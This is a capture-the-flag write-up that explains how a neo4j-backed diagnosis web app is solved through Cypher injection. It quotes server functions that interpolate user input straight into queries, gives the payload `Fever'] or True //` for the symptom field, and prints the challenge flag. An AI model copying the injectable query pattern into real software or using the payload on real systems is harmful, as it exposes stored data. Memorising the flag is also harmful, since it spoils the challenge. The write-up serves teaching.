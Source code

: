 # Dead or Alive
> We have developed an innovative disease detection system using graph theory. Come and test our system, all your personal data is securely protected

## About the Challenge
We were given a source code (You can download the source code [here](source.zip)) and a website, here is the preview of the website

![preview](images/preview.png)

In this website, there is a form where we can input the SSN (Social Security Number), full name, birth date, weight, and the symptoms.

![form](images/form.png)

The website will generate the possible diseases we may suffer from based on the symptoms

![diagnosis](images/diagnosis.png)

## How to Solve?
Let's check the source code first, there is a file called `app.js`

```js
import express from 'express';
import nunjucks from 'nunjucks';
import neo4j from 'neo4j-driver';
import md5 from 'md5'
import moment from 'moment'
```

It looks like this website using `node` as a backend, `nunjucks` as a templating engine, and `neo4j` as a database. There are 3 endpoints that we can use:

* /api/setUser
* /api/setSymptoms
* /api/getDiagnosis

When the user called `/api/setUser` endpoint, the code will call `setUser` function. Here is the content of `setUser` function

```js
async function setUser(ssn, name, yearOfBirth, weight){
    const session = driver.session();
    const q = `
        MERGE (p:Patient {
                    ssn: '${ssn}'
                })
        ON CREATE SET p.since = date()
        SET p.name = '${name}'
        SET p.yearOfBirth = ${yearOfBirth}
        SET p.weight = ${weight}
    `
    return session.run(q)
            .catch(() => {})
            .then(() => session.close());
}
```

When the user called `/api/setSymptoms` endpoint, the code will call `setSymptoms` function. Here is the content of `setSymptoms` function

```js
async function setSymptoms(ssn, symptoms){
    const session = driver.session();
    let q = `
        MATCH (p:Patient {ssn: '${ssn}'})
        MATCH (s:Symptom) WHERE s.name in [${symptoms}]
        MERGE (p)-[r:HAS]->(s)
    `;
    return session.run(q)
            .catch(() => {})
            .then(() => session.close());
}
```

When the user called `/api/getDiagnosis` endpoint, the code will call `getDiagnosis` function. Here is the content of `getDiagnosis` function

```js
async function getDiagnosis(ssn){
    const session = driver.session();
    const q = `
        // get patient symptoms as array
        MATCH (p:Patient {ssn: '${ssn}'})-[:HAS]->(s:Symptom)-[:OF]->(d:Disease)
        WITH d, collect(s.name) AS p_symptoms
        
        // looking for a match of the patient's symptoms in the symptoms of diseases
        MATCH (d)<-[:OF]-(d_symptom:Symptom)
        WITH d, p_symptoms, collect(d_symptom.name) as d_symptoms
        WHERE size(p_symptoms) = size(d_symptoms)
        RETURN d.name, d.description
    `;
    const result = await session.run(q).catch(() => {});
    session.close();
    return result?.records.map((record) => ({
            name: record.get('d.name'),
            description: record.get('d.description')
    }));
}
```

It looks like there is no filter in the user input. So, these 3 endpoints is vulnerable to Cypher Injection. But if we check the routes again, There is a filter that limits our input:

* /api/setUser
  * SSN: There is a limit of characters (9 characters)
  * Full name: The program hashed our input
  * Year of Birth: Date format (DD-MM-YYYY)
  * Weight: Only accept float as a user input
* /api/setSymptoms
  * SSN: There is a limit of characters (9 characters)
  * Symptom: No filter
* /api/getDiagnosis
  * SSN: There is a limit of characters (9 characters)

So we can only exploit the website in the `symptom` parameter. For this chall, the flag was located in the disease table. To obtain the flag, we need to input `Fever'] or True //` in the `symptom` parameter. The neo4j query will run like this

```
MATCH (p:Patient {ssn: '000000001'})
MATCH (s:Symptom) WHERE s.name in ['Fever'] or True //']
MERGE (p)-[r:HAS]->(s)
```

![payload](images/payload.png)

And then hit `/api/getDiagnosis` to obtain the flag

![flag](images/flag.png)

You can see the flag in the description of the disease

```
ctfzone{C4n_Th3_D34D_Pl4y_CTF?}
```